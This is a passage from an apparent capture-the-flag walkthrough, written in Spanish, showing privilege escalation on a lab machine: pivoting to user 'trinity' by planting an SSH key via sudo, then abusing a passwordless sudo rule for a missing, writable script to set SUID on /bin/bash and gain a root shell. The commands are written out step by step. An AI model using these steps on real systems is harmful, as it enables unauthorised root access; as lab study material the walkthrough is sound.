 
- Ahora copiamos la key pública generada dentro del directorio "/tmp" del sistema ya que el usuario "trinity" no tendría los permisos para manipular el archivo dentro del directorio del usuario "guest":

```bash
$cp /home/guest/.ssh/id_rsa.pub /tmp/id_rsa.pub
```

- Y ahora usamos el privilegio de sudoer para copiar este archivo como el usuario "trinity" dentro de su directorio ".ssh" con el nombre de `"authorized_keys"`:

```bash
$sudo -u trinity /bin/cp /tmp/id_rsa.pub /home/trinity/.ssh/authorized_keys
```

- Ahora solo resta `pivotar` al usuario trinity:

```bash
$ssh trinity@127.0.0.1
```


- Revisamos los permisos de `sudoers` como el usuario "trinity" y vemos lo siguiente:

```bash
$sudo -l
```

```js
User trinity may run the following commands on porteus:
    (root) NOPASSWD: /home/trinity/oracle
```

- Como podemos apreciar, podemos ejecutar el archivo "oracle" como el usuario "root" sin usar contraseña; si revisamos bien, podemos darnos cuenta que dicho archivo `no existe`, y como el directorio es el nuestro "trinity" tenemos `capacidad de escritura`, así que podemos simplemente aprovechar esto para crear un archivo "oracle" que tenga como contenido el comando en bash que otorgue permisos SUID a la bash.

```bash
$echo "chmod u+s /bin/bash" > oracle
$chmod +x oracle
```

- Y ejecutamos el archivo "oracle" como root:

```bash
$sudo /home/trinity/oracle 
```

- Y finalmente ejecutamos la bash con privilegios y seremos `root`.

```bash
$bash -p
```
